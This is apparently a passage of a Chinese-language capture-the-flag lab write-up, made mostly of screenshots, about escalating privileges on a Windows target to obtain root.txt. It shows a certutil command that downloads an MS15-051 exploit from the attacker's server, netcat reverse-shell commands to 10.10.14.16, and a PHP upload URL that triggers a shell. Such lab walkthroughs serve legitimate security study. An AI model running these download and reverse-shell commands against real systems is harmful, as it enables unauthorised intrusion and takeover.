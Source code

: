 
  

成功获得 root.txt

  

  

certutil：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTuiagTL3Y5qNzyicKZ8kV5xeE61tRibAAKVCxL4f1hEnap2QY0JEq6fkFA/640?wx_fmt=png)

```
certutil -urlcache -f http://10.10.14.16:8000/ms15-051x64.exe  dayucertutil.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTc9VZ2oBpLrnLibx7D8MoNM4NqyfwE2hn44MFaQO04DMicZHLEYB6t22g/640?wx_fmt=png)

```
dayucertutil.exe "nc.exe 10.10.14.16 6006 -e cmd.exe"
```

  

  

php 提权：

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTlCCQuWXUY0zAVZ2dGFXkJu2qBaw47qa1LAibgHH0QVbw5nJhPTZzwUA/640?wx_fmt=png)

上传 ms15-051.exe 不支持 “-”... 在本地改下名称...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTPxWotFnaB6UQK0esARl8QZUVHeMWsbxXGgBjZaic6TnX85X3NiaG6TAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTFxKh7ibjOAOKBwHXhpnxiaNdlLnglmdQ8UNOuEOWWKIoWEHgJ5bFx7bQ/640?wx_fmt=png)

成功输出命令...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTPEJ5DwZLYVfYyNaRV0FSAzyEaHEGUmo8zjVT8ylcaYIMGVqh0EMLoA/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?fupload=dayums.exe&dayu=dayums.exe "nc64.exe -e cmd 10.10.14.16 6007"
```

成功提权....

  

  

smbserver：

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT71UAwFlGlvHgibicM8RYG1WUjM94Hc9nyLsaDjgmK3EPYZcU85TVUyyQ/640?wx_fmt=png)

利用 smbserver 共享目录进行操作... 成功提权获得 root.txt 信息...（root 信息不公布... 自行学习加油）

![](https://mmbiz.qpic.cn/mmbiz_png/RKmmCHT73fdQQ2nv9rDeddIlJk71QWHcslefZEPQxvuVzXNn9ZlY6dicKOiaJQBXNFYkbHtUsOw0duN5FIUuItSA/640?wx_fmt=png)
